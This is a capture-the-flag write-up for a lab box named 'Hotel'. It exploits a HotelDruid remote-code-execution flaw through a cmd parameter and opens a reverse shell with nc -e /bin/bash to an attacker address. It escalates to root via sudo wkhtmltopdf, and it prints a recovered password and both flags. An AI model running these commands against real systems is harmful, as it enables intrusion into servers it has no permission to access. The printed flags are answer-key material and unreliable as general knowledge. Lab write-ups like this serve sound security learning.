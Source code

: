 # Hotel (Easy)

>MrMidnight | 12.August.2022

------------

### Target IP: 192.168.1.103

## 1. Enumeration

Another box another hour of fun. As usual start a nmap scan:

```bash
nmap -sC -sV -oA scans/Nmap/target 192.168.1.103
```

And yes a website is running on the default port. The site seems to be like an hotel booking website. The technology for the hotel booking is called "HotelDruid", as its shown at the end of the page. With a simple google search, I found a [remote-code-execution exploit])([Hotel Druid 3.0.3 - Remote Code Execution (RCE) - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50754)) on exploit-db.


## 2. Exploiting

All we have to do is downloading the script and running the exploit:

```bash
wget https://www.exploit-db.com/download/50754
python3 50754.py 
python3 50754.py -t http://hotel.hmv --noauth
```

`ps: dont forget to add the ip to "/etc/hosts" to make eveything easier : )`

If everything worked properly, the tool should provide a link: "http://192.168.186.22/dati/selectappartamenti.php?cmd=whoami" that we can visit to get an shell.

First confirm if its working tho:
```bash
curl http://hotel.hmv/dati/selectappartamenti.php?cmd=whoami

```

```
www-data
www-data

<option value=""></option>
<option value="1">1</option>
<option value="2a">2a</option>
```

Working confirmed! Now for the aual rev shell:

```bash
curl http://hotel.hmv/dati/selectappartamenti.php?cmd=nc%20-e%20/bin/bash%20192.168.1.100%204200
```

The revshell has to be url encoded tho. Also dont forget to setup a listenet:

```bash
nc -lnvp 4200
```

## 3. Enum for user:person

We are in the target! Ill upgrade to an better shell first:

```bash
python3 -c 'import pty;pty.spawn ("/bin/bash")'
export TERM=xterm
Ctrl Z
ssty raw -echo; fg
```

In the www-data's "html" directory, I found a interesting file called: "ttylog". Ill copy that to my attacker machine and analyze it:

```bash
python3 -m http.server 9090
wget http://hotel.hmv:9090/ttylog
strings ./ttylog
```

```
[?2004h
]0;person@hotel: ~
person@hotel:~$ 
[?2004l
[?2004h
]0;person@hotel: ~
person@hotel:~$ 
[?2004l
exit
```

## 4. Hack person
So this has something to do the the "person" user. After a bit of googling, this file is generated by a program called "[ttyrec](https://en.wikipedia.org/wiki/Ttyrec)" Using the tool "ttyplay" (which was already installed on the target), to play back the file that was generated:

```bash
ttyplay /var/www/html/ttylog
```

And just like someone else is typing, it reveals the password for the user person:

>Endur4nc3.

Now we can login with this information:
(you can also ssh into the user person. Its a more stable shell! i recommend always getting a ssh shell)

```bash
su person
```

## USER-FLAG
>RUvSNcQ3m2OyHzxHMV


## 5. Priv esc to root

Using "sudo -l", we can see that the command “wkhtmltopdf” can be run with root permissions. This program can translate text to pdf files. Due to the sudo permissions, it can also be used to get certain files. (Like the flag). Lets do exactly that:

```bash
sudo wkhtmltopdf /root/root.txt /tmp/root.pdf
```

Now just use download the file to your machine using wget + python server, and open the pdf with a imge viewer to view the flag.

## ROOT-FLAG

>7MUnADgp3g4STEPHMV